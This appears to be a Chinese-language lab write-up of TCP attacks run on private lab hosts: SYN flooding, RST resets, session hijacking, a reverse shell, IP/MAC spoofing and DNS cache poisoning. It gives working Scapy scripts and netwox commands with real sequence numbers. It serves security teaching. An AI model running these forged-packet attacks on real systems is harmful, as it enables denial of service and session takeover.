# TCP

Owner: xqer

# syn泛洪

查询Server半开放连接队列上限值：


其实实际上限值不完全等于该值

关闭Server的洪泛攻击防御（SYN cookies）

ps: syncookies 是这么做的：服务器根据当前状态计算出一个值，放在己方发出的 SYN+ACK 报文中发出，当客户端返回 ACK 报文时，取出该值验证，如果合法，就认为连接建立成功


攻击前，检查Server的半打开连接的状态 netstat –tna


Attacker端使用Netwox工具包76号，开始SYN洪泛攻击 (xxxx为Server IP)

netstat发现多了很多syn_recv的连接


user登不上了


cpu占用率增加了10%


# 复位攻击

user连接


wireshark抓包

(ip.src == 192.168.18.130 or ip.src == 192.168.18.134 ) and (ip.dst ==192.168.18.134 or ip.dst ==192.168.18.130),

最后一个报文的seq为5 ack为527 ，netwox和python都需要绝对的seqnum，具体见报文

用python代码发送rst包

```
from scapy.all import *

print("SENDING RESET PACKET.........")
ip = IP(src="192.168.18.130", dst="192.168.18.134")
tcp = TCP(sport=42249, dport=23,flags="R",seq=3382411731)
pkt = ip/tcp
ls(pkt)
send(pkt,verbose=0)

```


都可以实现中断连接


# 针对流媒体服务的TCP复位攻击

靶机可以正常访问视频网站


执行netwox 78功能


网页打不开了


# TCP会话劫持攻击

sudo netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.18.130 --ip4-dst 192.168.18.140 --tcp-src 43613 --tcp-dst 23 --tcp-dst 23 --tcp-seqnum 3341293600 --tcp-acknum 1593345840 --tcp-ack --tcp-psh --tcp-window 128 --tcp-data "616263"





在user页面已经无法键入命令，成功劫持

或者用python发包

```
from scapy.all import *

print("SENDING RESET PACKET.........")
ip = IP(src="192.168.18.130", dst="192.168.18.134")
tcp = TCP(sport=51396, dport=23,seq=1702067933)
pkt = ip/tcp/"6c730d00"
ls(pkt)
send(pkt,verbose=0)

```





发现成功执行了命令

# 反弹shell

attacker先监听



服务器端



发现attacker执行的命令会跑到服务器端



# 其他三种工具

## tcp客户端与服务端

87号功能可以建立一个tcp客户端，还、可以用这种方式传输数据

红线为自己输入的



89号功能作为服务端



## tcp欺骗

87号功能还可以建立一个假的tcp连接，使用假的ip地址和mac地址

87 -d "Eth0" -E "aa:bb:cc:dd:ee:ff " -e "00:0c:29:35:4c:02 " -I "192.168.1.3" -i "192.168.18.134" -p "23"



wireshark抓包，发现变成假的ip地址了

## DNS缓存攻击

通过netwox105 发送错误的dns信息，使user不能访问对应的网页





